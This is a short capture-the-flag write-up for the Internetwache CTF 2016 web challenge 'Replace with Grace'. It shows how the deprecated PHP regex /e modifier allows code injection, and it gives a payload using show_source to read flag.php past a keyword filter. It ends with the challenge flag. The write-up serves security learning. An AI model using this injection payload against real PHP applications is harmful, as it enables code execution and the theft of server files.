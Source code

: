 # Internetwache CTF 2016 : Replace with Grace

**Category:** Web
**Points:** 60
**Solves:** 229
**Description:**

> Description: Regular expressions are pretty useful. Especially when you need to search and replace complex terms.
> 
> 
> Service: <https://replace-with-grace.ctf.internetwache.org/>


## Write-up

**by [LosFuzzys](https://hack.more.systems)**

The given website is used to "Search & Replace" with regular expressions.
From other challenges we know, that we can execute php code using:

```php
/(.*)/e
```

(Check out [this Stackoverflow answer](http://stackoverflow.com/a/16986549/1518225) for details.)

The problem was, that the website filtered some inputs like:

* file
* open


It worked with:

```php
var_dump(show_source('flag.php'));
```

A simple, but nice challenge.

```
IW{R3Pl4c3_N0t_S4F3}
```

## Other write-ups and resources

* <https://github.com/raccoons-team/ctf/tree/master/2016-02-20-internetwache-ctf/web60>
* <https://forum.xeksec.com/f138/t88658/>
* <http://losfuzzys.github.io/writeup/2016/02/22/iwctf2016-ReplaceWithGrace/>
